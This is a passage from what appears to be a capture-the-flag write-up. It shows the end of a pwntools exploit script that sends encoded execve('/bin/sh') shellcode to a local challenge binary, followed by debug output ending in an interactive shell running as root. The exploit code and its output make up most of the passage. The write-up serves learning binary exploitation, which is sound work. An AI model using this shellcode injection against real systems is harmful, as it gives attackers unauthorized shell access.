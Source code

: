 ```python
log.info("length: "+str(len(payload)))

p=process('./challenge')

s(p32(len(payload))[::-1]) # big endian
# gdb.attach(p)
sleep(1.0)
s(payload)

p.interactive()
```
> I didn't know I had to initialize hash function everytime before using it, but now I know.

result:
```bash
> # ./exp.py
[DEBUG] cpp -C -nostdinc -undef -P -I/usr/local/lib/python3.10/dist-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    .p2align 2
    _start:
    __start:
    .intel_syntax noprefix
    lea rdi, [rip+binsh]
    xor rdx, rdx
    xor rsi, rsi
    mov eax, 59
    syscall
    binsh: .asciz "/bin/sh"
[DEBUG] /usr/bin/x86_64-linux-gnu-as -64 -o /tmp/pwn-asm-zrc6ejvk/step2 /tmp/pwn-asm-zrc6ejvk/step1
[DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-zrc6ejvk/step3 /tmp/pwn-asm-zrc6ejvk/step4
[*] length: 56
[+] Starting local process './challenge' argv=[b'./challenge'] : pid 2656
[DEBUG] Sent 0x4 bytes:
    00000000  00 00 00 38                                         │···8│
    00000004
[DEBUG] Sent 0x38 bytes:
    00000000  6a 01 26 00  8c 00 f3 00  71 00 0a 00  17 00 33 02  │j·&·│····│q···│··3·│
    00000010  5d 00 f4 00  6e 00 f4 01  55 00 2d 01  c7 00 81 02  │]···│n···│U·-·│····│
    00000020  71 00 0a 00  62 01 0e 00  c2 00 80 00  11 03 5b 01  │q···│b···│····│··[·│
    00000030  c2 00 3f 00  d0 00 81 02                            │··?·│····│
    00000038
[*] Switching to interactive mode
$ id
[DEBUG] Sent 0x3 bytes:
    b'id\n'
[DEBUG] Received 0x34 bytes:
    b'uid=0(root) gid=0(root)
```

Thank you,

079
